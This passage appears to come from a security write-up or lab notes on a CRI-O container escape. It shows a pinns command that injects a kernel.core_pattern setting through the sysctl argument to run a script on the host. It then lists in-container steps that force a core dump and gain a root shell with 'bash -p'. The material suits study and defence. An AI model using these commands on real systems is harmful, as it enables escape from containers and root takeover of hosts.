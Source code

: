 We can configure our container to execute our malicious script using pinns, and then configure the container such that we get a core dump.

```bash
pinns -d /var/run -f 844aa3c8-2c60-4245-a7df-9e26768ff303 -s 'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/test/bar.sh #' --ipc --net --uts --cgroup

# in container
ulimit -s unlimited
tail -f /dev/null &
ps # check for tail PID
bash -i
kill -SIGSEGV <PID_for_tail>
```

Afterwards, we should see our script be executed and we can get a root shell using `bash -p`.&#x20;

<figure><img src="../../../.gitbook/assets/image (125) (1).png" alt=""><figcaption></figcaption></figure>

